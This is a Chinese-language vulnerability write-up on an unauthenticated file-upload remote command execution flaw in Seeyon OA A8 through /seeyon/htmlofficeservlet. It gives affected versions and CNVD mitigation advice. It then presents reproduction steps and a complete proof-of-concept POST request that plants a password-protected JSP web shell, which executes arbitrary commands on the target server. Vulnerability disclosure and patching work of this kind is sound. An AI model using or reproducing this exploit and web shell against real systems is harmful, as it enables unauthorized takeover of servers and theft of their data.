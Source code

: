 致远OA A8 系统远程命令执行漏洞
==============================

一、漏洞简介
------------

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

二、漏洞影响
------------

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、
在公网部署的致远A8+服务器，通过ACL禁止外网对"/seeyon/htmlofficeservlet"路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看<https://www.cnvd.org.cn/webinfo/show/5095>

三、复现过程
------------

先访问/seeyon/htmlofficeservlet
![](./.resource/致远OAA8系统远程命令执行漏洞/media/rId25.png) 出现DBSTEP V3.0 0 21 0 htmoffice operate
err
![](./.resource/致远OAA8系统远程命令执行漏洞/media/rId26.png) 掏出burp进行抓包替换成poc如下
![](./.resource/致远OAA8系统远程命令执行漏洞/media/rId27.png) 提交POST请求包，查看回显如下
![](./.resource/致远OAA8系统远程命令执行漏洞/media/rId28.png)

### 小结

POC：(POST包)

    POST /seeyon/htmlofficeservlet HTTP/1.1
    Content-Length: 1121
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
    Host: xxxxxxxxx
    Pragma: no-cache

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7c

